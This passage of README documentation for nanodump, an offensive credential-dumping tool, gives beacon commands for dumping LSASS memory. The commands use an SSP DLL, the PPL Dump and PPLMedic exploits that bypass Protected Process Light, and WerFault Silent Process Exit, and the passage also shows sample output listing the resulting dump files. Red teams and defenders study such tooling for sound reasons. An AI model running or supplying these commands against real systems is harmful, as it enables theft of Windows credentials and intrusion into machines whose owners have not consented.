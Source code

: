 By default, an unsigned nanodump DLL will be uploaded to the Temp folder which will be deleted automatically.  
```
beacon> nanodump_ssp -v -w C:\Windows\Temp\lsass.dmp
```

If you want to load a pre-existing DLL, you can run:
```
beacon> nanodump_ssp -v -w C:\Windows\Temp\lsass.dmp --load-dll C:\Windows\Temp\ssp.dll
```

<h3>PPL Dump exploit</h2>
If LSASS is running as Protected Process Light (PPL), you can try to bypass it using a userland exploit discovered by Project Zero. If it is successful, the dump will be written to disk.  

> Note that this vulnerability has been fixed in the July 2022 update pack (Windows 10 21H2 Build 19044.1826)

To access this feature, use the `nanodump_ppl_dump` command
```
beacon> nanodump_ppl_dump -v -w C:\Windows\Temp\lsass.dmp
```

<h3>PPL Medic exploit</h2>
Nanodump also implements the PPLMedic exploit, which works on systems that have the July 2022 update pack.  
The parameters will be passed to the nanodump DLL via a named pipe. You can hardcode the parameters into the DLL and avoid using the named pipe altogether with the compiler flag PASS_PARAMS_VIA_NAMED_PIPES=0.  

To access this feature, use the `nanodump_ppl_medic` command
```
beacon> nanodump_ppl_medic -v -w C:\Windows\Temp\lsass.dmp
```

<h3>WerFault</h2>
You can force the WerFault.exe process to create a full memory dump of LSASS. Take into consideration that this requires the ability to write to the registry

Because the dump is not made by nanodump, it will always have a valid signature.

<h4>Silent Process Exit</h3>

To leverage the Silent Process Exit technique, use the `--silent-process-exit` parameter and the path where the dump should be created.
```
beacon> nanodump --silent-process-exit C:\Windows\Temp\
```

A dump of the nanodump process will also be created, similar to this:
```
PS C:\> dir 'C:\Windows\Temp\lsass.exe-(PID-648)-4035593\'

Directory: C:\Windows\Temp\lsass.exe-(PID-648)-4035593

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/23/2022   7:40 AM       58830409 lsass.exe-(PID-648).dmp
-a----         6/23/2022   7:40 AM        7862825 nanodump.x64.exe-(PID-3224).dmp
```
